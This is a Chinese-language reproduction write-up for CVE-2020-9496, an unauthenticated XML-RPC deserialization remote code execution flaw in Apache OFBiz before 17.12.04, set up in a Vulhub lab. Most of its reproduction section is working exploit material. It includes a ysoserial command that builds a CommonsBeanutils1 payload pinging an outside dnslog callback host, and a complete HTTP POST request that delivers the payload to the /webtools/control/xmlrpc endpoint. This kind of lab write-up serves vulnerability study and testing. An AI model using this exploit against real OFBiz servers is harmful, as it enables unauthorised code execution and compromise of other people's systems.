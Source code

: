 如果XML-RPC服务端设置了enabledForExtensions，那么就支持附加的数据类型，其中包括`<serializable>`标签，其中的内容为一个对象被转换为序列化的表示形式并作为Base64编码的字节数组。

## 0x02 漏洞原理

在17.12.04之前版本的Ofbiz中，其中的未授权访问XMLRPC接口`/webtools/control/xmlrpc`存在反序列化漏洞，攻击者可通过该接口实现RCE。

## 0x03 影响版本

< 17.12.04

## 0x04 环境搭建

参考Vulhub：[https://vulhub.org/#/environments/ofbiz/CVE-2020-9496/](https://web.archive.org/web/20221208223447/https://vulhub.org/#/environments/ofbiz/CVE-2020-9496/)

## 0x05 漏洞复现

使用ysoserial生成payload：

```
java -jar ysoserial-0.0.6-SNAPSHOT-all.jar CommonsBeanutils1 "ping -nc 1 ofbiz.xudce2.dnslog.cn" | base64 | tr -d "\n"
```

向`/webtools/control/xmlrpc`接口发送payload，base64-payload换为生成的payload内容：

```
POST /webtools/control/xmlrpc HTTP/1.1
Host: your-ip
Content-Type: application/xml
Content-Length: 4093

<?xml version="1.0"?>
<methodCall>
  <methodName>ProjectDiscovery</methodName>
  <params>
    <param>
      <value>
        <struct>
          <member>
            <name>test</name>
            <value>
              <serializable xmlns="http://ws.apache.org/xmlrpc/namespaces/extensions">[base64-payload]</serializable>
            </value>
          </member>
        </struct>
      </value>
    </param>
  </params>
</methodCall>
```
